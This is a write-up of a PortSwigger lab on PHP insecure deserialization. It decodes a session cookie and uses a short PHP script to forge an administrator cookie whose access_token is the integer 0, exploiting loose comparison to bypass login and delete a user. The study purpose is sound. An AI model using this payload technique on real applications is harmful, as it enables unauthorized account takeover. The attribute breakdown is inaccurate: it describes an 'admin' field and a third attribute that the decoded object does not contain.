 # Modifying serialized data types | Jan 10, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-data-types), you'll learn: Modifying serialized data types! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab uses a serialization-based session mechanism and is vulnerable to authentication bypass as a result. To solve the lab, edit the serialized object in the session cookie to access the `administrator` account. Then, delete Carlos.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-2/images/Pasted%20image%2020230110054047.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-2/images/Pasted%20image%2020230110054121.png)

**Burp Suite HTTP history:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-2/images/Pasted%20image%2020230110054104.png)

When we successfully logged in, it'll set a new session cookie.

**URL decoded:**
```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJpYzRnanAybGN4bnd2dmlrYjhhOWUwMm0wYjd4NXhiayI7fQ==
```

As you can see, the session cookie's last 2 characters are `=`, which is a padding in base64.

**Let's base64 decode that:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# echo -n 'Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJpYzRnanAybGN4bnd2dmlrYjhhOWUwMm0wYjd4NXhiayI7fQ==' | base64 -d
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"ic4gjp2lcxnwvvikb8a9e02m0b7x5xbk";}
```

It's a PHP deserialized object!

Let's break it down:

- `O:4:"User"` means there is an `User` object, and it's length is 4 characters long
- `2` means there are 2 attributes:
    - `s:8:"username"` means the **first attribute** is called `username`, and it's length is 8 characters long
        - `s:6:"wiener"` means `username` attribute value is `wiener`, and it's length is 6 characters long
    - `s:5:"admin"` means the **second attribute** is called `admin`, and it's length is 5 characters long
        - `b:0` means the `admin` attribute value is boolean value `0` (`false`)
    - `s:12:"access_token"` means the **third attribute** is called `access_token`, and it's length is 12 characters long
        - `s:32:"ic4gjp2lcxnwvvikb8a9e02m0b7x5xbk"` means the `access_token` attribute value is `ic4gjp2lcxnwvvikb8a9e02m0b7x5xbk`, and it's length is 32 characters long

Armed with above information, we can take a closer look at the `access_token` attribute.

**The 32 characters long of string looks like a hash. We can use `hash-identifier` to identify the hash algorithm:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# hash-identifier 'ic4gjp2lcxnwvvikb8a9e02m0b7x5xbk'
[...]
Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
[...]
```

It's a MD5 hash!

So, the `access_token` is checking we're authenticated or not.

**Since we have control to the deserialized object, we can modify it.**

If the web application is using loose comparison (`==`), we can modify the deserialized object to bypass the authentication!

**Let's assume the web application is checking the `access_token` like this:**
```php
$User = unserialize($_COOKIE);

if ($User['access_token'] == $password){
    // Login successful
};
```

We can just change the data type of `access_token` attribute to an integer!

**To do so, we can write a PHP code:**
```php
<?php
    $serializedObject = 'O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}';

    $deserializedObject = unserialize($serializedObject);
    echo "[+] Deserialized: \n";
    var_dump($deserializedObject);

    echo "[+] Base64 encoded: \n" . base64_encode($serializedObject);
?>
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# php serialization.php
[+] Deserialized: 
object(__PHP_Incomplete_Class)#1 (3) {
  ["__PHP_Incomplete_Class_Name"]=>
  string(4) "User"
  ["username"]=>
  string(13) "administrator"
  ["access_token"]=>
  int(0)
}
[+] Base64 encoded: 
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9
```

Notice that the `access_token` attribute's data type is set to integer with value 0, and the `username` attribute's value changed to `administrator`.

When we changed the session cookie, we'll be logged in as user `administrator`, as the `access_token` is equal to `true`.

This happens because PHP will attempt to convert the string to an integer, meaning that `5 == "5"` evaluates to `true`. So our integer `0` will always be true, as there is no number in `the access_token`.

**Let's modify our session cookie to our newly modified serialized object in base64 encoding:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-2/images/Pasted%20image%2020230110061905.png)

**Then refresh the page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-2/images/Pasted%20image%2020230110061918.png)

Nice! We see an admin panel. Let's delete user `carlos`:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-2/images/Pasted%20image%2020230110061944.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-2/images/Pasted%20image%2020230110061950.png)

# What we've learned:

1. Modifying serialized data types